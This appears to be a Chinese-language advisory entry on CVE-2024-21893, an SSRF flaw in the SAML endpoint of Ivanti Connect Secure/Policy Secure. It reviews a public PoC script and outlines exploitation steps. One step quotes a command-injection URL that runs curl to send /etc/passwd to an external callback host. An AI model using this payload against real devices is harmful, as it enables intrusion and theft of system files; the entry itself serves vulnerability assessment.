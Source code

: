 ## CVE-2024-21893-Ivanti Connect Secure/Policy Secure-SSRF

**漏洞编号:** CVE-2024-21893

**漏洞类型:** 服务器端请求伪造 (SSRF)

**影响应用:** Ivanti Connect Secure/Policy Secure

**危害等级:** 高危，允许未经身份验证的攻击者访问受限资源，可能导致敏感信息泄露和远程代码执行

**影响版本:** Ivanti Connect Secure (9.x, 22.x), Ivanti Policy Secure (9.x, 22.x)

**利用条件:** 需要网络访问到存在漏洞的Ivanti Connect Secure或Policy Secure设备的SAML接口

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2024-21893 是 Ivanti Connect Secure 和 Policy Secure 产品中 SAML 组件的一个服务器端请求伪造 (SSRF) 漏洞。未经身份验证的攻击者可以利用此漏洞访问受限资源。 

**有效性分析：**
提供的 POC 代码利用了 SAML 接口的 SSRF 漏洞。它构造一个包含恶意 `RetrievalMethod URI` 的 SOAP 请求，该 URI 指向攻击者控制的服务器，从而使服务器能够执行任意 HTTP 请求。根据搜索结果，该漏洞已被积极利用，并且存在公开可用的漏洞利用代码，表明该 POC 代码很可能有效。

**投毒风险分析：**
检查提供的`CVE-2024-21893.py`脚本，没有发现明显的恶意或隐藏的后门代码。 该脚本旨在发送特制的 SOAP 请求以触发 SSRF 漏洞。虽然攻击者可以使用此漏洞执行各种恶意操作，但这不属于投毒的范畴。投毒是指在代码中故意插入恶意代码，而此脚本仅利用了现有漏洞。`README.md`文件中的示例也清晰地展示了如何利用该漏洞，没有隐藏任何恶意步骤。因此，投毒风险评估为 0%。

**利用方式：**
1.  **漏洞定位：** 该漏洞存在于 Ivanti Connect Secure 和 Policy Secure 产品的 SAML 组件中，具体路径通常是 `/dana-ws/saml20.ws`。
2.  **构造恶意 SOAP 请求：** 攻击者构造一个包含恶意 `RetrievalMethod URI` 的 SOAP 请求。`RetrievalMethod URI` 指向攻击者控制的服务器。
3.  **发送请求：** 攻击者将构造的 SOAP 请求发送到目标 Ivanti 设备的 SAML 接口 (`/dana-ws/saml20.ws`)。
4.  **触发 SSRF：**  当 Ivanti 设备处理该请求时，它会尝试从 `RetrievalMethod URI` 指定的地址检索资源，从而触发 SSRF 漏洞。
5.  **利用 SSRF：** 攻击者可以使用 SSRF 漏洞访问内部资源，例如内部服务器、数据库或其他敏感信息。此外，根据`README.md`中的描述，还可以通过构造包含命令注入的URI，例如`http://127.0.0.1:8090/api/v1/license/keys-status/%3bcurl%20-X%20POST%20-d%20%40%2fetc%2fpasswd%20http%3a%2f%2f8oxxxxxxxxxxxxx.oastify.com%3b`，实现远程代码执行。

总而言之，此漏洞利用的有效性较高，但提供的代码本身没有投毒风险，利用方式是构造包含恶意URI的SOAP请求触发SSRF，并最终可能导致RCE。

**项目地址:** [h4x0r-dz/CVE-2024-21893.py](https://github.com/h4x0r-dz/CVE-2024-21893.py)

**漏洞详情:** [CVE-2024-21893](https://nvd.nist.gov/vuln/detail/CVE-2024-21893)